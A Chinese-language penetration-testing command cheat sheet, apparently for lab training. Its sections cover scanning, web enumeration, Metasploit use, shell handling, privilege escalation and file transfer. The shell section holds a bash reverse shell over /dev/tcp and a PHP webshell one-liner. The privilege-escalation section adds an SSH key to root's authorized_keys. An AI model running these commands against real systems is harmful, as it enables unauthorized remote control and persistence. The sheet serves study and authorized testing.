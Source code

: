 # 🛠️ 渗透测试常用工具命令笔记

## 🧰 基本操作工具

### 🔌 VPN & 网络

| 命令                     | 描述                        |
| ------------------------ | --------------------------- |
| `sudo openvpn user.ovpn` | 连接到 VPN                  |
| `ifconfig` / `ip a`      | 查看 IP 地址                |
| `netstat -rn`            | 显示路由表和 VPN 可访问网络 |
| `ssh user@10.10.10.10`   | SSH 连接远程主机            |
| `ftp 10.129.42.253`      | FTP 连接目标服务器          |

---

### 🧱 Tmux 快捷键

| 快捷键     | 描述           |
| ---------- | -------------- |
| `tmux`     | 启动 tmux      |
| `Ctrl+b`   | tmux 前缀      |
| `prefix c` | 新建窗口       |
| `prefix 1` | 切换到窗口 1   |
| `prefix %` | 垂直分割窗格   |
| `prefix "` | 水平分割窗格   |
| `prefix →` | 切换至右侧窗格 |

---

### ✍️ Vim 操作命令

| 命令       | 描述           |
| ---------- | -------------- |
| `vim file` | 打开文件       |
| `Esc+i`    | 插入模式       |
| `Esc`      | 普通模式       |
| `x`        | 删除字符       |
| `dw`       | 删除单词       |
| `dd`       | 删除整行       |
| `yw`       | 复制单词       |
| `yy`       | 复制整行       |
| `p`        | 粘贴           |
| `:1`       | 跳转第 1 行    |
| `:w`       | 保存文件       |
| `:q`       | 退出           |
| `:q!`      | 强制退出不保存 |
| `:wq`      | 保存并退出     |

---

## 🔍 渗透测试流程命令

### 1️⃣ 服务扫描 & 网络发现

| 命令                                              | 描述                     |
| ------------------------------------------------- | ------------------------ |
| `nmap <IP>`                                       | 快速扫描                 |
| `nmap -sV -sC -p- <IP>`                           | 全端口 + 脚本扫描        |
| `locate scripts/citrix`                           | 查找相关脚本             |
| `nmap --script smb-os-discovery.nse -p445 <IP>`   | SMB 枚举                 |
| `netcat <IP> 22`                                  | 横幅探测                 |
| `smbclient -N -L \\\\<IP>`                        | 枚举 SMB 共享            |
| `smbclient \\\\<IP>\\users`                       | 连接共享目录             |
| `snmpwalk -v 2c -c public <IP> 1.3.6.1.2.1.1.5.0` | SNMP 枚举                |
| `onesixtyone -c dict.txt <IP>`                    | 暴力破解 SNMP 社区字符串 |

---

### 2️⃣ Web 枚举

| 命令                                     | 描述                      |
| ---------------------------------------- | ------------------------- |
| `gobuster dir -u http://<IP>/ -w <字典>` | 目录扫描                  |
| `gobuster dns -d domain.com -w <字典>`   | 子域名爆破                |
| `curl -IL <URL>`                         | 获取响应头信息            |
| `whatweb <IP>`                           | Web 技术探测              |
| `curl <IP>/robots.txt`                   | robots.txt 枚举           |
| `Ctrl+U`                                 | 查看网页源代码（Firefox） |

---

### 3️⃣ 漏洞利用

| 命令                         | 描述             |
| ---------------------------- | ---------------- |
| `searchsploit openssh 7.2`   | 查询漏洞库       |
| `msfconsole`                 | 启动 Metasploit  |
| `search exploit eternalblue` | 搜索漏洞模块     |
| `use exploit/...`            | 使用指定漏洞模块 |
| `show options`               | 查看模块参数     |
| `set RHOSTS <IP>`            | 设置目标         |
| `check`                      | 检测漏洞存在性   |
| `exploit`                    | 执行漏洞利用     |

---

### 4️⃣ Shell 操作

| 命令                                                | 描述               |
| --------------------------------------------------- | ------------------ |
| `nc -lvnp 1234`                                     | 启动监听           |
| `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'`        | Bash 反弹 shell    |
| `python -c 'import pty; pty.spawn("/bin/bash")'`    | 升级交互式 shell   |
| `Ctrl+Z → stty raw -echo → fg`                      | 修复交互式 TTY     |
| `echo "<?php system(\$_GET['cmd']);?>" > shell.php` | 创建 WebShell      |
| `curl http://IP/shell.php?cmd=id`                   | 执行 WebShell 命令 |

---

### 5️⃣ 权限提升

| 命令                                             | 描述                      |
| ------------------------------------------------ | ------------------------- |
| `./linpeas.sh`                                   | 本地枚举脚本              |
| `sudo -l`                                        | 查看可用 sudo 权限        |
| `sudo su`                                        | 切换 root（如果权限允许） |
| `ssh-keygen -f key`                              | 生成 SSH 密钥             |
| `echo "pubkey..." >> /root/.ssh/authorized_keys` | 添加公钥到 root           |
| `ssh root@IP -i key`                             | 使用私钥登录              |

---

### 6️⃣ 文件传输

| 命令                               | 描述               |
| ---------------------------------- | ------------------ |
| `python3 -m http.server 8000`      | 启动临时 HTTP 服务 |
| `wget http://IP:8000/file`         | 下载文件           |
| `curl http://IP:8000/file -o file` | curl 下载文件      |
| `scp file user@IP:/tmp/file`       | 通过 SSH 传输      |
| `base64 file -w 0`                 | 转 Base64          |
| `echo BASE64 | base64 -d > file`   | 还原 Base64        |
| `md5sum file`                      | 校验完整性         |

---

